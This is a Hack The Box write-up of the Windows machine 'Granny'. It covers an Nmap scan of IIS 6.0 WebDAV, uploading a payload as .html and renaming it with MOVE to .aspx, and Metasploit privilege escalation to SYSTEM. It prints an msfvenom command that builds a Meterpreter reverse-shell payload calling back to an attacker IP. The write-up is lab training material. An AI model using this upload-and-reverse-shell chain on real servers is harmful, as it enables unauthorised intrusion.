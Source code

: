 ```yaml
---
layout: PostSimple
date: 2020-03-07
title:     "Hack The Box - Granny"
tags: ['windows','easy','isi','put']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/14](https://www.hackthebox.eu/home/machines/profile/14)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/9.png)

Started my Listener in ``Msfconsole`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



